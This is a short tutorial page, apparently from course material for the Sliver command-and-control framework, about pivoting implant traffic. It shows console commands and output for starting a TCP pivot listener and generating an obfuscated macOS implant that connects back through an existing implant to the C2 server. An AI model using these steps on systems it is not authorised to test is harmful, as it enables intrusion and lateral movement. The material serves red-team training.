 # This course is intented for the 1.6 version of Sliver, which is not yet published

Pivots allow routing implant traffic through other implants. This can be usefull in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots, tcp which can be used on all operating systems and named pipes which are windows only.

In both cases the workflow is relatively similar, as a first step select a session and setup a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.
